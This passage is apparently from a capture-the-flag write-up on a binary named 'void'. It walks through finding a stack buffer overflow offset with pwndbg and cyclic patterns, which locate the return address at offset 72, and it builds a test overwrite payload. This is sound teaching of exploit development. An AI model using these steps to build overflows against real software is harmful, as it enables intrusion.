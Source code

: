 ## Finding the offset
> A journey of 1,000 miles begins with finding the offset

1. Generate a pattern of 199 bytes; the buffer is 200, but we will send a newline and 199 characters when we send it with pwntools.

```bash
pwndbg> !cyclic 199
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
```

2. Save the payload to a file so we can replay it in GDB

```bash
pwndbg> cyclic 199 > payload.txt
```

3. Set a breakpoint at the `ret` instruction in the `vuln` function. It is 32 bytes from the beginning of the function

```bash
pwndbg> b * vuln + 32
Breakpoint 1 at 0x401142
```

4. Run with GDB and the program should crash

![crash]({{site.baseurl}}/images/void/screenshot1.png)
*crash in void with 199 bytes*

5. The value `0x6161617461616173` is the address where the program is trying to return to, from the function `vuln`. We can use the last 4 bytes of this address to find the offset in our cyclic pattern.

[Cyber Chef](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')Reverse('Character')&input=MHg2MTYxNjE3NDYxNjE2MTcz) is useful for this.

![cyber chef recipe]({{site.baseurl}}/images/void/screenshot2.png)
*Cyber Chef recipe turns hex back to string*

The 4 character string we should search for is 'saaa'.

6. The `cyclic` tool can tell us where this pattern occurs in the pattern we generated, a.k.a., the offset.

```bash
pwndbg> !cyclic -l saaa
72
```

The offset appears to be 72. We can test it by generating a 72 byte pattern and appending 8 `A` characters to it. It's probably also a good idea to pad the payload to 199 bytes to be consistant with the payload we sent.

```bash
pwndbg> !echo -n aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaa > payload2.txt
pwndbg> !echo -n 'AAAAAAAA' >> payload2.txt
pwndbg> !cyclic 119 >> payload2.txt
pwndbg> !cat payload2.txt
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaaAAAAAAAAaaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaapwndbg>
```
